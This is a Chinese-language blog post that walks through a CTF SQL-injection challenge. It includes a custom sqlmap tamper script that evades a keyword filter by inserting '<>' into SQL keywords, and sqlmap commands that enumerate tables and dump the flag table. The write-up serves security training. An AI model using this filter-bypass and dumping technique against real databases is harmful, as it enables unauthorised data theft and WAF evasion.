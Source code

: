 ```yaml
---

layout: post
title:  CTF竞赛-SQL注入
subtitle: 本文为CTF web网络攻防方向，主要记录SQL注入的一道题
date:   2018-04-13 21:45:00 +0800
author: "Jove"
header-img:  'images/gallery/wineglass-and-a-bowl-of-fruit.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Wineglass and a Bowl of Fruit  
Creator: Willem Kalf (Dutch, 1619–1693)  
Date Created: 1663  
Physical Dimensions: Framed: 81 x 70.5 x 7.5 cm (31 7/8 x 27 3/4 x 2 15/16 in.); Unframed: 60.3 x 50.2 cm (23 3/4 x 19 3/4 in.)  
Type: Painting  
Medium: oil on canvas  
Inscriptions: Signed and dated lower left: "W. KALF 1663"  
Fun Fact: Willem Kalf was the most accomplished proponent of the pronkstilleven, a Dutch term meaning "ostentatious still life."  
Department: European Painting and Sculpture  
Culture: Netherlands, 17th century  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #SQL#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【SQL】的题目：

![ctf-20180413211837458](/images/posts/ctf/ctf-20180413211837458.png)

## 解题过程

题目内容：

出题人就告诉你这是个注入，有种别走！

题目很嚣张，进入靶场环境后，也很直接，告诉你flag就在数据库中。习惯性打开F12，调出**HackBar**:

![ctf-20180413212033452](/images/posts/ctf/ctf-20180413212033452.png)

- 先一顿手工注入测试，基本上出现下面三种回显：

  1）明说是**注入代码**

  ![ctf-20180413212311861](/images/posts/ctf/ctf-20180413212311861.png)

  2）空白

  ![ctf-20180413212415559](/images/posts/ctf/ctf-20180413212415559.png)

  3）**有效回显**

  ![ctf-20180413212510702](/images/posts/ctf/ctf-20180413212510702.png)

- 时间过去了一大半，终于探测出来了个大概：

  - select、and、or、order等关键词会被检测直接标记**inj code**
  - <>会被替换为空
  - union联合查询输出长度为3

- 下面开始祭出sqlmap大法，当然需要会使用基本的sqlmap语法，网上教程请自行慢慢享用

  另外还需要会编写sqlmap tamper的一点点知识

  这里，我找了个sqlmap自带的`escapequotes.py`的过滤语法：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      return payload.replace("'", "\\'").replace('"', '\\"')
  ```

  然后在此基础上，修改为刚刚找出来的几个关键词过滤，保存为自己的`mytam`：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      payload = payload.replace("SELECT", "SE<>LECT").replace('AND', 'AN<>D').replace("ORDER", "ORD<>ER")
      return payload
  ```

  重点就是替换了`select`、`and`、`order`三个关键词

- 然后放到sqlmap里跑一跑：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py`

  ![ctf-20180413213455006](/images/posts/ctf/ctf-20180413213455006.png)

  因为我已经跑过一遍了，这里直接读取session拿到结果了，说明这里存在可以利用的sql漏洞

- 接下来获取数据库和表：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py --tables`

  ![ctf-20180413213706267](/images/posts/ctf/ctf-20180413213706267.png)

  可以发现除了系统表以外，在sqli数据库里面存在两张表：info和users，大概率就在info表里了

- 直接查info表里的所有信息：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py -D sqli -T info --dump`

  ![ctf-20180413213857446](/images/posts/ctf/ctf-20180413213857446.png)

至此，得到flag。

## 总结

这次题目主要针对sql注入，注意点有两个：

1、手工注入测试，找到过滤规则，这也是在实战中经常会需要绕过WAF的方法，多练就是了

2、sqlmap的熟练使用，会加快渗透测试流程。前提也是需要对sqlmap有一定的熟练程度
